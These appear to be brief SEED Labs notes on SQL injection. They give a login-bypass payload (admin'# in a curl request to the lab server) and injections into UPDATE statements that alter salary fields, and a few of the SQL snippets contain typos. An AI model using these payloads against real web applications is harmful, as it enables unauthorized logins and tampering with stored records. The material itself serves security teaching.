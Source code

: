 # SQL Injection

## print all

```sql
select * from credential where Name="Alice";
```

## admin access

```sql
where name="admin'#' and password='$hased_pwd'";
```

```bash
curl "www.seed-server.com/unsafe_home.php?username=admin'#&password="
```

##
```bash
', salary='99999
```
->
```sql
set credential set nickname=' ', salary='99999 ', # etc ... email=''
```

```bash
', salary=1 where name='boby';#
```
->
```sql
update credential set nickname=' ',salary=1 where name='boby';# ' #etc...
```